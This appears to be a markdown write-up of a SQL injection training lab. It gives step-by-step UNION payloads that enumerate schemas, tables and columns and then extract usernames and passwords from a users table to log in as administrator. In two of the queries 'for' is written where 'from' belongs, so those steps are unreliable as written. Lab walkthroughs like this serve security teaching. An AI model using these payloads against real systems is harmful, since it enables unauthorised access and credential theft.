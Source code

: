 ### Five Exercise 👆


![problem.PNG](/assets/SQLi/First/problem.PNG)


#### **To do**

```
To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.  
```


1. First, read all databases
```sql
' union select NULL, schema_name from information_schema.schemata-- -
```

**Output**
![dbs.PNG](/assets/SQLi/Five/dbs.PNG)


2. Next, read columns of db **public**
```sql
' union select NULL, table_name for information_schema.tables where table_schema='public'-- -
```

**Output**
![tables.PNG](/assets/SQLi/Five/tables.PNG)


3. Get column names from table **users**
```bash
' union select NULL, column_name for information_schema.columns where table_schema='public' and table_name='users'-- -
```
![column-names.PNG](/assets/SQLi/Five/columns.PNG)

4. Read data for users
```bash
' union select NULL, concat(username,': ',password) from users-- -
```

**Output**
![creds.PNG](/assets/SQLi/Five/creds.PNG)

5. Login how **administrator**
![login.PNG](/assets/SQLi/Five/login.PNG)